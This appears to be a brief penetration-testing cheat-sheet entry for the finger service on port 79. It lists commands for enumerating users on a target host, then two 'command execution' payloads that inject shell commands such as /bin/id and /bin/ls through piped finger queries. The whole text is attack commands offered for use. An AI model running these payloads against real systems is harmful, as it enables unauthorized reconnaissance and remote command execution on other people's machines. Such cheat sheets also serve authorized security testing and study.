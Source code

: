 # FINGER - 79

#### User enumeration <a href="#user-enumeration" id="user-enumeration"></a>

```
finger @<IP>
finger <USER>@<IP>
```

#### Command execution <a href="#command-execution" id="command-execution"></a>

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```
